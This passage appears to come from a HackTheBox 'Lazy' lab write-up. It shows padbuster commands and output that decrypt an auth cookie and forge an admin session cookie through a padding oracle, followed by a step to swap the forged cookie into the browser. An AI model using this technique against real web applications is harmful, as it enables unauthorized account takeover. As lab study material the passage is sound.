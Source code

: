 To exploit this vulnerability, we can use `padbuster`.

```bash
# Usage: padbuster URL EncryptedSample BlockSize [options] 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# padbuster http://10.10.10.18/index.php IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs 8 -cookies auth=IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

...

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=shiro

[+] Decrypted value (HEX): 757365723D736869726F060606060606

[+] Decrypted value (Base64): dXNlcj1zaGlybwYGBgYGBg==

-------------------------------------------------------
```

Now, we can provide `padbuster` with a plaintext and it will return us with a valid cookie!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# padbuster http://10.10.10.18/index.php IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs 8 -cookies auth=IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs -encoding 0 -plaintext user=admin

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

...

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

Let’s update the session cookie to `BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA` and then refresh the webpage.
